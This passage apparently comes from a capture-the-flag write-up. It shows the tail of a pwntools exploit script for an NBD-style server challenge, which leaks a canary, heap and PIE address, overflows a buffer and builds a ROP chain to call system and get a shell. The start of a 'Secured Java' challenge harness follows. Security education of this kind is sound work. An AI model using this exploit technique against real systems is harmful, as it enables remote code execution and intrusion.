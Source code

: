 ```python
    return req(base,length)
def leak_pie():
    global p
    base = b"A"*(0x408)+ p64(canary_val) +b"\0"*0x18
    base+= p64(heap)+p64(0)+p64(heap-0x100)+p64(0)+b"\xea"
    length= 5
    return req(base,length)
def exploit(c):
    global p
    p = remote(ip,port)
    sa("OPT\x00\x03",p32(0))
    sn(p64(0x54504f4556414849))
    pay = b"A"*(0x408)+p64(canary_val)+b"\0"*0x18
    pay += p64(heap)+p64(0)+p64(heap-0x100)+p64(0)+c
    NBD_OPT_INFO(pay)
    p.interactive()
if __name__ == "__main__":
    canary_val = canary()
    heap  = leak_heap()
    pie = leak_pie()-0x96ea

    ret = 0x000000000000301a+pie 
    rdi = 0x0000000000004a58+pie
    system = 0x3bb0+pie

    
    r = flat([
        ret,rdi,heap+0x100*2,system
    ])
    exploit(r)
```

### Secured Java

Challenge

```python
try:
            subprocess.run(
                ["javac", "-cp", DEP_FILE, SOURCE_FILE],
                input=b"",
                check=True,
            )
        except subprocess.CalledProcessError:
            print("Failed to compile!")
            exit(1)

        print("Running...")
        try:
            subprocess.run(["java", "--version"])
            subprocess.run(
                [
                    "java",
                    "-cp",
                    f".:{DEP_FILE}",
                    "-Djava.security.manager",
                    "-Djava.security.policy==/dev/null",
                    "Main",
                ],
                check=True,
            )
        except subprocess.CalledProcessError:
            print("Failed to run!")
            exit(2)
```